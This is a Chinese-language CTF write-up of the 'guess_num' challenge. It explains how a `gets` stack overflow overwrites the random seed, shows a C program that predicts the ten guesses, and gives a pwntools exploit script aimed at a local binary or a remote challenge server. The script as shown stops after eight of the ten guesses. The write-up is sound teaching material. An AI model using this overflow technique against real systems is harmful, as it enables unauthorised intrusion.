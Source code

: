 > 菜鸡在玩一个猜数字的游戏，但他无论如何都银不了，你能帮助他么

![](https://vip1.loli.net/2019/12/27/kEqG8RzZmI1nPV4.png)

（出题人出题也要夹私货）

```
[*] '/ctf/work/adworld/guess_num/8148f1ab15f24bacbe1b16e8de24df17'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

保护全开的题目

![](https://vip1.loli.net/2019/12/27/ejLgWSbIGCtU4JM.png)

通过 main 函数可以看到有两个问题，一个是使用了 `gets` 存在栈溢出，另一个是使用了 `srand` 初始化随机数种子

![](https://vip1.loli.net/2019/12/27/muF1qdoMBWejcAR.png)

`srand` 进行初始化的时候，是通过 `sub_BB0` 函数初始化的，而该函数使用了 `/dev/urandom` 来取得随机数的。

那么，我们能不能通过 `gets` 的溢出固定这个随机数呢？答案是可以的。

![](https://vip1.loli.net/2019/12/27/5E3RCkBSA42J1Zf.png)

当 `gets` 超过 0x20 字符时就会溢出开始覆盖 seed 的值，我们可以通过栈溢出固定下来随机数的种子数。

本题本质时一个猜数字的游戏，连续猜中 10 次就能得到 flag 了。我们可以通过写一个简单的 C 程序来提前取得要猜的数字，固定随机数的种子数为 0

```c
void main() {
        int i;
        srand(0);
        for (i = 0; i <= 9; ++i) {
                printf("%d", rand()%6+1);
        }
}
```

编译运行，可以知道这 10 个要猜的数字分别是：2 5 4 2 6 2 5 1 4 2

```python
#!/usr/bin/env python

from pwn import *

proc = './8148f1ab15f24bacbe1b16e8de24df17'

context.binary = proc
context.log_level = 'debug'

if args.R:
    p = remote('111.198.29.45', 57416)
else:
    p = process(proc)

p.sendlineafter(':', 'a'*0x20 + p64(0))
p.sendlineafter(':', '2')
p.sendlineafter(':', '5')
p.sendlineafter(':', '4')
p.sendlineafter(':', '2')
p.sendlineafter(':', '6')
p.sendlineafter(':', '2')
p.sendlineafter(':', '5')
p.sendlineafter(':', '1')
```